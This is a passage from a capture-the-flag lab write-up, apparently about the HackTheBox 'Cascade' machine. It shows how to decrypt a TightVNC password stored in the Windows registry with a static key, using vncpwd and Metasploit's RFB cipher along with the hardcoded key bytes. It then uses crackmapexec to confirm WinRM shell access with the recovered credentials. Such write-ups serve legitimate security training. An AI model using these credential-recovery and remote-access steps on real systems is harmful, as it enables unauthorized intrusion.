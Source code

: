 The line `"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f` jumped out as interesting.

### Crack TightVNC Password

Some reading about TightVNC shows that it stores the password in the register encrypted with a static key. There’s a bunch of tools out there to do it. I used [this](https://github.com/jeroennijhof/vncpwd). It takes a file with the ciphertext, which I created with `echo '6bcf2a4b6e5aca0f' | xxd -r -p > vnc_enc_pass`:

```

root@kali# /opt/vncpwd/vncpwd vnc_enc_pass
Password: sT333ve2

```

That command is using the `-r -p` options in `xxd` to convert from a hex string to ran binary.

I could also just use the Bash trick to treat command output as the contents of a file with `<( )`:

```

root@kali# /opt/vncpwd/vncpwd <(echo '6bcf2a4b6e5aca0f' | xxd -r -p)
Password: sT333ve2                       

```

[This link](https://github.com/frizb/PasswordDecrypts) shows how to do it from within Metaspoit, and it works as well:

```

msf5 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

irb: warn: can't alias jobs from irb_jobs.
>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
=> "\u0017Rk\u0006#NX\a"
>> require 'rex/proto/rfb'
=> false
>> Rex::Proto::RFB::Cipher.decrypt ["6bcf2a4b6e5aca0f"].pack('H*'), fixedkey
=> "sT333ve2"

```

### WinRM

With these creds, `crackmapexec` shows that it is possible to get a shell over WinRM:

```

root@kali# crackmapexec winrm 10.10.10.182 -u s.smith -p sT333ve2
WINRM       10.10.10.182    5985   CASC-DC1         [*] http://10.10.10.182:5985/wsman
WINRM       10.10.10.182    5985   CASC-DC1         [+] CASCADE\s.smith:sT333ve2 (Pwn3d!)

```
